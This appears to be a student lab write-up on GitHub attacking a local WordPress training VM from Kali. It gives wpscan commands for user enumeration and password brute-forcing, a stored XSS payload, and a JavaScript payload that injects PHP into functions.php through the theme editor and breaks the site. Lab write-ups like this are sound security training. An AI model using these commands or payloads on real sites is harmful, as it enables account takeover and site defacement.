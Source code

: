 # WordPressvsKali
Exploit 1: User Enumeration

In this exploit, I launched a user enumeration attack on WPDistillery.vm

1. Open a terminal in Kali
2. Access wpscan tool
3. Input the command
  - sudo wpscan --url http://wpdistillery.vm -e u rockyou.txt
  - Note: -e = enumeration, u = user, and I used rockyou.txt as the userlist.
  
  ![image](https://user-images.githubusercontent.com/111927957/198867624-89719a11-b1f8-4dac-9ea2-abc15ae25f50.png)
  
  The results of the user enumeration scan:
  
  ![image](https://user-images.githubusercontent.com/111927957/198867668-cf89a4a8-8283-4ad0-8e65-b0676c2a8c3c.png)
  
  The enumeration scan identified "admin" as an available user.
  
  This can be checked by attempting to login as Admin on wpdistillery.vm/wp-login.php
  
  ![image](https://user-images.githubusercontent.com/111927957/198867726-35f6a92c-34ed-4111-be9f-97624dd0da9b.png)
  
  The results show that "The password you entered for the username admin is incorrect". This proves that admin is a user on this website. 
  
  Next, I will bruteforce into admin using wpscan.
  
  1. Continuing on the same terminal, insert the command: 
    - sudo wpscan --url http://wpdistillery.vm/wp-login.php -U 'admin' -P fasttrack.txt
    - Note: I'm using fasttrack.txt wordlist to bruteforce into admin.
  ![image](https://user-images.githubusercontent.com/111927957/198867852-f8efa7d9-37e8-4bf9-aee1-a6349979a3dc.png)
  
  ![image](https://user-images.githubusercontent.com/111927957/198867860-d9372c27-a756-4ffc-9b8a-43e7f6f55b2d.png)
  
  Results of the wpscan shows that user "admin" has the password "admin".

  Now we are able to log in as admin and access the website.
  
  Exploit 2: XSS
  
  In this exploit, I will show a method to launch a XSS attack. 
  
  1. As admin, add this script as a new post in the text tab then publish:
     - <script>eval(window.location.hash.substring(1))</script>
     - This makes the website vulnerable to XSS
     - To confirm that it works, go back to the mainpage wpdistillery.vm then add /#alert(1)
     - An alert box should pop up, showing (1)
     ![image](https://user-images.githubusercontent.com/111927957/198874401-26b38a41-6bc0-444d-a1bb-e3b1a6b4c81b.png)
     
   2. Go to theme editor > file functions.php
   3. Insert the following code to break the page:
   -nc=document.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()
   
   4. Refresh the page the add this to the end of the URL:
   #i=document.createElement('iframe');document.body.appendChild(i);i.src='/wp-admin/theme-editor.php?      file=functions.php';window.setTimeout(function(){nc=i.contentDocument.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()},3000)
  
   5. Users now won't have access to any access to the website.

![image](https://user-images.githubusercontent.com/111927957/198875062-37c59997-b311-4f63-a008-697fabf3d330.png)

  
  

